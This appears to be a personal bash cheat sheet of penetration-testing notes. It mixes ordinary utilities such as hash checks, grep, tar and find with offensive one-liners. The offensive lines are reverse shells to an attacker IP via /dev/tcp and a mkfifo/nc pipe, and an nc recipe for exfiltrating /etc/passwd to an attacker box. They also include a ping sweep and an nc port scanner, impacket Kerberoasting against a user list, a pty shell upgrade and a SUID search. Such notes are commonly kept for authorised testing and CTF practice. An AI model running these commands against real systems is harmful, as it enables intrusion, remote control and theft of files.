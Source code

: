 # bash

### diff a file hash with its published value

`diff <(shasum -a 256 /path/to/file.ext) <(echo "published_sha256_value")`

use something like `... | sed 's/ .*$//'` to strip the extraneous info from the shasum cmd. Add info to the end of the published value to test.

`diff <(shasum -a 256 /path/to/file.ext | sed 's/ .*$//') <(echo "published_sha256_value")`

### carve a range of files by exact beginning and end

`ls -lh | grep "some_logs.log" | grep -E "1[3-9].gz|2[0-6].gz"`

Lists only `some_logs_13.gz` to `some_logs_26.gz`. Pipe that into whatever to do whatever.

### find hashes (hex) from output

`grep -a [a-f0-9]\{32\}`

Pipe output from things like `strings` here to finds hashes. The above will work for all hashes that are 32 characters or greater (md5, sha256, etc). Not perfect; will catch any string that matches the pattern, not just hashes. Adapt as needed. To find sha256 you could do

`grep -a [a-f0-9]\{64\}`

### reverse shell

`bash -i >& /dev/tcp/<attacker ip>/<listening port> 0>&1`

or if no `-e`

`mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc attacker ip listening port > /tmp/f`

or

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.2.53.28 7777 >/tmp/f`

### do things to entires in IPs.txt
`for ip in `cat ips.txt`; do md5sum $ip; done >> something.txt`

### ippsec's scanner
```bash
#!/bin/bash
# by Ippsec https://www.youtube.com/watch?v=kE36IGAU5rg

for i in $(seq 2 225); do
    ping -c 1 -W 1 172.20.0.$i 1>/dev/null 2>&1
    if [[ $? -eq 0 ]];  then
          echo "172.20.0.$i - Online"
    fi
done
```
### grep for a string recursively in a dir
```bash
grep -r --include "*.h" "get_return_address" .
# --include "*.h" --> search files ending in .h
```
### exfil /etc/passwd (OR ANYTHING) with nc
```bash
# set up listner on attack box, port 31337. Direct output to exfil.txt
nc -nvlp 31337 > exfil.txt
# on the target, use
nc <attacker_ip_addr> 31337 < /etc/passwd # replace /etc/passwd with whatever file you want to try
```

### if your tool can't handle cidr notation, do it the hard way (ex: is a 10.10.0.0/16)
```bash
for i in $(seq 1 255); do echo "10.10.$i.1-255"; done | tr "\n" ","
```
### Mount a CIFS share with your Kerberos ticket on Linux 
```bash
sudo mount -t cifs -o "sec=krb5,cruid=$UID,user=Administrateur,domain=http://FOO.BAR" //AD1.FOO.BAR/C$ /mnt/test
```
### tar and untar a directory
```bash
tar -zcvf archive.tar.gz directory/;
tar -zxvf archive.tar.gz
```
### impacket scripts using a file containing a list of users (GetUserSPNs as an example)

```bash
for i in $(cat ~/path/to/user.list); do echo $i; ./GetUserSPNs.py -request -dc-ip 10.10.xx.xxx -no-pass -k domain.name/$i; sleep 5; done
```
### python3 pty
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
CTRL-z
bg
stty raw -echo
fg
```

### Find files recursively in a directory
```bash
find . -ls -type f
```

### nc port scanner only show success and banner (if present)
```bash
echo "" | nc -nvw3 172.16.1.20 20-4000 2>&1 | grep -A 1 succeeded
```
### find SUIDs
```bash
find / -perm -u=s -type f 2>/dev/null
```
